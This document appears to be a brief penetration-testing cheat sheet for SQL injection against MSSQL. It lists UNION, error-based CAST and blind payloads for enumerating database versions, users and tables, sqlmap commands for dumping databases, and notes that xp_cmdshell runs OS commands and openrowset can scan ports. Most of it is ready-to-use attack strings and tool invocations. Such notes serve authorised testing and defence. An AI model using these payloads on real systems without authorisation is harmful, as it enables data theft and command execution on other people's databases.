 ## In-band
#### UNION
* `99999999 UNION SELECT NULL<, NULL,...>; -- -` - detect number of fields in query
* `99999999 UNION SELECT 1<, NULL,...>; -- -` - detect field type
* `99999999 UNION SELECT 'a'<, NULL,...>; -- -` - detect field type

## Error-based
#### CAST
* `99999999 or 1 in (Select Top 1 CAST(<fieldname> as varchar(4096)) <from <TableName> where <fieldname> not in (<list>)>)`
    * fieldname: `@@version`, `user_name()`, `db_name(0)-(99..)`
          * `...CAST(name as varchar(4096)) FROM <database-name>..sysobjects where xtype='U' and name not in (<known-table-list>)`

## Blind
#### Boolean-Based
* trigger True/False statements

## Sqlmap
* `sqlmap -u <URL> --data=<POST> -p param` - POST
* `sqlmap -u <URL> -p param`
* `sqlmap -r <request-file> -p param` - take request from file
      * `--technique=<U>`
      * `--banner`
      * `--dbms` - database type
      * `--dbs` - list databases
      * `-D <database>`, `-T <tables>`, `--columns`
      * `--dump`
      * `--string` - always present in True output
      * `--not-string` - always present in False output
      * `--prefix <value>`, `--suffix <value>`
      * `--keep-alive` - persistent connection to target

## Techniques
* `xp_cmdshell` - executes OS commands
* `openrowset` - access the tables of a remote server; can be used as port scanner
  

## Cheatsheets
* https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

